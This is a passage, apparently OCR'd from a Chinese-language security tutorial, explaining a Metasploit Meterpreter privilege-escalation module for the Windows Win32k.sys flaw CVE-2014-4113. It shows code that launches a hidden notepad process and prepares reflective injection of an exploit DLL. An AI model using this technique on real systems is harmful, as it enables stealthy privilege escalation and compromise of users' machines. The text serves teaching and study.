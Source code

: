 ```
    notepad_process = client.sys.process.execute('notepad.exe', nil, {'Hidden' => true})
```

```
    begin
```

```
        process = client.sys.process.open(notepad_process.pid, PROCESS_ALL_ACCESS)
```

```
        print_good("Process #{process.pid} launched.")
```

```
  rescue Rex::Post::Meterpreter::RequestError
```

```
        print_error('Operation failed. Trying to elevate the current process...')
```

```
        process = client.sys.process.open
```

```
    end
```

该方法从尝试启动记事本开始。请注意，`{'Hidden' => true}` 参数被传递给 `execute`。这确保了记事本会执行，但友好的编辑器窗口不会实际出现在用户面前（这肯定会让用户察觉到有什么不对劲）。然后，我们处理记事本启动成功的情况，并获取进程 ID，进入下一阶段的攻击；如果启动记事本失败，`rescue` 会派上用场，处理启动失败的情况，改为获取当前打开的进程用于下一阶段。

DLL 是 Windows 中共享库模型的实现。它们是可以被多个程序共享的可执行代码。就实际用途而言，它们应当被视为可执行文件。与 EXE 文件的主要区别在于，DLL 需要一个由运行中的程序提供的入口点。从安全角度来看，DLL 是非常危险的，因为它们被加载到调用进程的内存空间中，这意味着它们拥有与运行进程相同的权限。如果我们能够将恶意 DLL 注入到一个特权进程中，这几乎就意味着游戏结束。

接下来是我们的大高潮——反射 DLL 注入。DLL 旨在加载到进程的内存空间中，因此 DLL 注入实际上就是强制用我们选择的 DLL 来加载它。然而，由于 DLL 本身就是一个独立的文件，DLL 注入通常涉及从磁盘上提取 DLL 的代码。反射 DLL 注入让我们可以直接从内存中提取源代码。让我们来看看我们的模块在 `Win32k.sys` 漏洞利用的背景下如何进行反射 DLL 注入：

```
    print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
```

```
   if target.arch.first == ARCH_X86
```

```
        dll_file_name = 'cve-2014-4113.x86.dll'
```

```
    else
```

```
        dll_file_name = 'cve-2014-4113.x64.dll'
```

```
    end
```
